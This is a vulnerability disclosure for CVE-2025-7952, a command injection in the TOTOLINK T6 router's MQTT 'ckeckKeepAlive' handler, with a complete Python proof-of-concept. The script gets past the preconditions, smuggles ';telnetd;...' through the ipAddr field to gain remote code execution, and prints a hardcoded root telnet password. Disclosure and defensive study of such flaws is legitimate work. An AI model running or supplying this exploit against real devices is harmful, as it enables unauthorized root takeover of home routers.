

# [CVE-2025-7952](https://www.cve.org/CVERecord?id=CVE-2025-7952)

# Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a command injection vulnerability. This vulnerability can be triggered through the MQTT packet handler function `ckeckKeepAlive` in file `wireless.so` .An attacker can implement a RCE attack by sending a malicious MQTT packet.

# Vulnerability details

Here is the code that handle request to MQTT packet `ckeckKeepAlive`. The `ipAddr` parameter is passed to funcion `safe_cs_pub` as the first param


Function `safe_cs_pub` pass first param (domain) to `tcpcheck_net` function for further processing



In `tcpcheck_net` function, there is a command injection vulnerability. Program use call `tcpcheck` with system. If we can control `domain` param, we can inject the code to `system`


However, to exploit the command injection, you must satisfy the conditions

- apmib_get call to get value at 0x46AB. This value must not be 0. This can be bypass by calling MQTT function `setWiFiMeshConfig`. For more information, see POC section
- File `/var/meshInfo.ini` must be exist. This can be bypass by setting up a http server and calling MQTT function `updateWifiInfo`. For more information, see POC section
- Param `macAddr` must have valid format. To bypass this, just use random Mac address (for example 3A:7C:F2:91:5E:B4) should work.


# POC

```python
import paho.mqtt.client as mqtt
import requests, time, sys, os
import socket
import http.server
import socketserver
import threading


# Define the handler to serve files or respond to requests
class MyHandler(http.server.SimpleHTTPRequestHandler):
    def do_GET(self):
        # Customize the GET request handling as needed
        super().do_GET()

# Start a server in a separate thread
def start_server(PORT = 80):
    Handler = MyHandler
    httpd = socketserver.TCPServer(("", PORT), Handler)
    
    print(f"[*] Serving on port {PORT}")
    httpd.serve_forever()

def start_http_server():
    # Run server in a new thread
    server_thread = threading.Thread(target=start_server)
    server_thread.daemon = True  # Allow server to exit when main program exits
    server_thread.start()

    # Your program can continue running here without hanging
    print("[*] Server is running in the background...")
    
def set_0x46AB(client, value):
    mqtt_data = b'''
    {
        "effectType":"2",
        "masterMode":"%d"
    }
    ''' % value
    
    client.publish("totolink/router/setWiFiMeshConfig", mqtt_data)

def trigger_download_messInfo_ini(client, my_ip):
    mqtt_data = b'''
    {
        "serverIp":"%s",
        "newMd5":"1234"
    }
    ''' % my_ip.encode()
    
    client.publish("totolink/router/updateWifiInfo", mqtt_data)

def execute_command(client, cmd):
    mqtt_data = b'''
    {
        "ipAddr":";%s;",
        "macAddr":"3A:7C:F2:91:5E:B4"
    }
    ''' % cmd.encode()
    
    client.publish("totolink/router/ckeckKeepAlive", mqtt_data)

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("[-] Usage: <%s> target_ip my_ip" % sys.argv[0])
        exit(0)
    
    target_ip = sys.argv[1]
    my_ip = sys.argv[2]
    
    client = mqtt.Client()
    client.connect(target_ip, 1883, 60)
    
    set_0x46AB(client, 1)
    print("[+] Set apmib 0x46AB Ok")
    
    time.sleep(3)
    
    start_http_server()
    print("[+] http server is running background")
    
    f = open("meshInfo.ini", "w")
    f.write("Pwned by Elvis!!!")
    f.close()
    
    trigger_download_messInfo_ini(client, my_ip)
    print("[+] Trigger download meshInfo.ini ok")
    
    for i in range(0, 10):
        time.sleep(1)
    
    execute_command(client, "telnetd;echo Pwned by Elvis!!! > /tmp/hacked")
    
    print("[+] /tmp/hacked written. Try telnet %s with root/KL@UHeZ0" % target_ip)
    for i in range(0, 5):
        time.sleep(1)
```

[Video](https://www.youtube.com/watch?v=Wox7br4T3W8)

# Credits

[Reisen_1943](https://anduinbrian.github.io/). He helped me to setup the device and found the login information for root account.